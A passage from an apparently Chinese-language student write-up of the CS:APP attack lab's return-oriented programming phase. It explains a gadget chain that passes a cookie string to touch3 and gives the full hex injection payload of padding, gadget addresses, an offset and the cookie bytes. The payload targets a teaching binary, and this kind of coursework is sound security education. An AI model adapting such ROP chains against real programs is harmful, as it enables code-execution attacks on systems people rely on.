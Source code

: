 ```markdown
7：mov %ecx，%esi
8：lea    (%rdi,%rsi,1),%rax
9：movq %rax，%rdi
10：(touch3地址)
11：（cookie的ascii值）
```
我们若把cookie的值存在11处，1处的rax记录的rsp在2处。（rsp的指向雷同phas 4不赘诉）而11处的地址相对于2处的偏移量为9，而一行为8字节，因此偏移量为8*9=72=0x48.因此4处的值为48
综上，查阅对应机器码，注入字符的16进制为（注入答案不唯一）
```markdown
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
后续操作相同，不赘诉。
### 总结
到此，attack lab全部结束。
by:x_n
